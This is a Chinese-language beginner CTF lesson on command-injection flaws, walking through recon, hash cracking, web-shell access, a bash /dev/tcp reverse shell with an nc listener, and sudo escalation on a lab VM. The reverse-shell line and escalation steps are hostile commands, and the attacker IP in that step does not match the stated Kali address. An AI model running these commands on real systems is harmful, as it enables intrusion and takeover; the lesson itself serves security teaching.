# CTF入门课程：P22：命令执行 - 网络安全基础入门 🚀

在本节课中，我们将学习命令执行漏洞的原理、利用方法以及如何通过实战演练获取目标主机的最高权限和Flag值。

## 概述





命令执行漏洞是Web安全中一种常见且危害性极大的漏洞。当应用程序需要调用外部程序处理内容时，会使用一些执行系统命令的函数。如果这些函数的参数可以被用户控制且未经过严格过滤，攻击者就能注入恶意系统命令，从而造成命令执行攻击，最终可能导致服务器被完全控制。

## 命令执行漏洞原理

当应用需要调用一些外部程序去处理内容的情况下，就会用到一些执行系统命令的函数。例如，在PHP语言中，有 `system`、`exec`、`shell_exec` 等函数。

当用户可以控制命令执行函数中的参数时，就可以注入恶意系统命令到正常的命令中，造成命令执行攻击。在调用这些函数执行系统命令时，如果没有对用户的输入进行严格的过滤，那么用户输入将作为系统命令参数拼接到对应的命令行中，最终导致命令执行漏洞。

**核心概念公式**：
```
恶意命令 = 正常命令 + 未过滤的用户输入
```

## 实验环境搭建

上一节我们介绍了命令执行漏洞的原理，本节中我们来看看具体的实验环境。









*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶场机器**：Linux系统，IP地址为 `192.168.253.18`。





在CTF比赛中，我们的目标通常是获取靶场机器上的Flag值。以此为目标，我们开始进行测试。



## 信息探测

进行测试的第一步是信息探测。在之前的课程中，我们使用过很多命令行工具，如 `nmap` 和 `dirb`。本节我们将使用一个更高级的图形化集成工具 `Sparta` 来进行探测。它可以调用多种命令行工具，并将输出结果整合到其图形界面中。

以下是使用 `Sparta` 进行信息探测的步骤：

1.  首先，测试与靶场机器的连通性。在Kali终端中输入 `ping 192.168.253.18`，收到响应则证明网络连通。
2.  打开 `Sparta` 工具，将靶场IP地址 `192.168.253.18` 添加到扫描范围中。
3.  `Sparta` 会自动调用 `nmap` 等工具对靶机进行端口扫描、服务识别和敏感目录探测。





扫描结果显示，靶机开放了 **23端口（Telnet）**、**80端口（HTTP）** 和 **8080端口（HTTP）**。80端口运行着基于 **Python 2.7.1** 和 **Django** 框架的Web服务。



## 深入分析与漏洞挖掘

在完成初步扫描后，我们需要对收集到的信息进行深入分析。我们重点关注80端口的HTTP服务。

以下是针对80端口服务的分析步骤：



1.  **Web界面浏览**：使用浏览器访问 `http://192.168.253.18`，查看网站首页。
2.  **目录扫描**：利用 `Sparta` 集成的 `dirb` 工具对网站进行目录暴力破解。扫描发现了 `/admin`（后台登录目录）和 `/dev`（开发目录）等敏感路径。
3.  **访问敏感目录**：
    *   访问 `/admin`，发现是一个登录界面。
    *   访问 `/dev`，发现一个名为 “web shell” 的链接，但点击后提示需要服务器认证。
4.  **源代码审计**：检查首页、登录页面和 `/dev` 页面的源代码，寻找敏感信息。在 `/dev` 页面的源代码中，发现了多段哈希值（Hash）。
5.  **哈希破解**：将发现的哈希值保存到文件，然后使用在线哈希破解网站（如 `hashes.com`）进行破解。成功破解出两段哈希对应的明文为 `bro` 和 `bglove`。



## 登录后台与进一步探测

获得可能的用户名和密码后，我们尝试登录后台系统。

1.  访问 `/admin` 登录页面。
2.  查看页面源代码，发现一个用户名字段 `nick`。
3.  尝试使用用户名 `nick` 和密码 `bglove` 进行登录，成功进入网站后台。

登录后台后，我们获得了访问受限资源（如之前需要认证的 `/dev` 页面）的权限。



## 漏洞利用与命令执行



现在，我们访问 `/dev` 页面下的 “web shell” 链接。由于已登录，这次成功打开了Web Shell界面。该界面允许用户执行一些命令，但存在限制。



我们的目标是利用这个Web Shell，让靶机向我们控制的机器反弹一个Shell连接，从而获得一个交互式命令行。





以下是反弹Shell的步骤：



1.  **在攻击机（Kali）上开启监听**：打开终端，使用 `netcat (nc)` 监听一个端口（例如4444）。
    ```bash
    nc -nlvp 4444
    ```
2.  **在Web Shell中执行反弹命令**：在Web Shell的输入框中，注入一条命令，让靶机连接到攻击机的监听端口。假设攻击机IP为 `192.168.1.105`。
    ```bash
    bash -c ‘bash -i >& /dev/tcp/192.168.1.105/4444 0>&1’
    ```
3.  **升级Shell**：在攻击机收到反弹的Shell连接后，这个Shell通常不是功能完整的TTY。我们需要将其升级为完全交互式的终端。
    ```python
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```
    执行后，我们就获得了一个功能更完善的Bash Shell。

## 权限提升与获取Flag

获得Shell后，我们发现当前用户并非 `root`。接下来需要进行权限提升（提权）。

以下是提权并获取Flag的步骤：



1.  **信息收集**：在用户家目录（`/home/dell`）下，使用 `ls -la` 命令查看所有文件（包括隐藏文件）。发现一个隐藏的管理员目录 `.admin_dir`。
2.  **分析提权文件**：进入 `.admin_dir` 目录，发现一个可执行文件 `customApp` 和一个说明文件 `note`。使用 `strings` 命令分析 `customApp` 文件中的字符串。
    ```bash
    strings customApp
    ```
3.  **提取密码**：在 `strings` 命令的输出中，发现一段看似被混淆的文本。通过观察，移除其中的干扰字符（如 `H` 和 `onH`），可以提取出一段明文密码。
4.  **提权操作**：使用提取到的密码，通过 `sudo` 命令提升到 `root` 权限。
    ```bash
    sudo su
    # 输入提取到的密码
    ```
    使用 `id` 命令验证，显示 `uid=0(root)` 即表示提权成功。
5.  **寻找Flag**：在CTF比赛中，Flag通常存放在 `root` 用户目录或特定位置。切换到 `/root` 目录，使用 `ls` 和 `cat` 命令查找并读取Flag文件。
    ```bash
    cd /root
    ls
    cat flag.txt  # 或类似的文件名
    ```



## 总结





本节课我们一起学习了命令执行漏洞的完整利用链：

1.  **原理理解**：认识到未过滤用户输入拼接系统命令的危险性。
2.  **信息收集**：使用工具（如 `Sparta`）进行端口扫描、目录爆破和源代码审计。
3.  **漏洞发现**：通过分析找到潜在的后台入口、敏感文件（如哈希值）和功能点（如Web Shell）。
4.  **漏洞利用**：利用破解的凭证登录后台，绕过限制在Web Shell中注入命令，实现反弹Shell。
5.  **权限提升**：在目标系统上收集信息，分析特殊文件，找到提权方法并获取 `root` 权限。
6.  **目标达成**：最终定位并读取Flag文件，完成挑战。



在实际CTF比赛和网络安全评估中，命令执行漏洞往往伴随着各种过滤和防御机制，选手需要灵活运用编码、拼接、管道符等技巧进行绕过。掌握本节课的基础流程是应对更复杂情况的第一步。